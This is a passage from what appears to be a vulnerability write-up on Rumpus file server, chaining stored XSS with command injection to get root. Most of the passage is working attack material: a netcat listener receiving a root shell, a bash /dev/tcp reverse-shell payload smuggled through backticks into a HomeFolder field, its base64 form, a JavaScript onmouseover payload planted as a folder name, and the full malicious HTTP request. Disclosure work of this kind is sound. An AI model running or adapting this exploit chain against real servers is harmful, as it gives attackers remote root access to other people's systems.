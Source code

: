 Attacker listener’s incoming connection:

{% highlight sh %}
% nc -l 4444
whoami
root
{% endhighlight %}

The command injection occurs because input is not filtered, it is possible to alter the expected command by using a quote. By using backticks it is possible to insert arbitrary commands into this string whereafter it will be executed.

# XSS to root
To demonstrate the impact of this combination of vulnerabilities the following proof of concept was made.

Combining the payload with the XSS is possible but tricky due to the length restriction and encoding. Note a valid username and place it in the payload.

{% highlight html %}
Username=user&HomeFolder=/'`bash>%26/dev/tcp/Y.Y.Y.Y/4444+0>%261`/
{% endhighlight %}

Base64 encode it due to special characters being filtered. Don’t forget to URL encode special characters after it:

{% highlight html %}
VXNlcm5hbWU9dXNlciZIb21lRm9sZGVyPS8nYGJhc2g%2bJTI2L2Rldi90Y3AvWS5ZLlkuWS80NDQ0KzA%2bJTI2MWAv
{% endhighlight %}

Create a folder in the application with as name the following JavaScript:

{% highlight html %}
%22onmouseover=%22var+x%3Dnew+XMLHttpRequest%28%29%3Bx.open%28%27POST%27%2C%27RAPR%26%23%78%32%66%3bDefineUsersSet.html%27%29%3Bx.send%28atob%28' VXNlcm5hbWU9dXNlciZIb21lRm9sZGVyPS8nYGJhc2g%2bJTI2L2Rldi90Y3AvWS5ZLlkuWS80NDQ0KzA%2BJTI2MWAv'%29%29%3B
{% endhighlight %}

The POST request should look similar to this:

{% highlight html %}
POST /Rumpus.makefolder HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 266
Origin: http://X.X.X.X
Connection: close
Referer: http://X.X.X.X/
Cookie: UserAccount=_UwtsA9IFxh91RR; SessionID=1143479735
Upgrade-Insecure-Requests: 1

FolderName=%22onmouseover=%22var+x%3Dnew+XMLHttpRequest%28%29%3Bx.open%28%27POST%27%2C%27RAPR%26%23%78%32%66%3bDefineUsersSet.html%27%29%3Bx.send%28atob%28'VXNlcm5hbWU9dXNlciZIb21lRm9sZGVyPS8nYGJhc2g%2bJTI2L2Rldi90Y3AvWS5ZLlkuWS80NDQ0KzA%2BJTI2MWAv'%29%29%3B
{% endhighlight %}
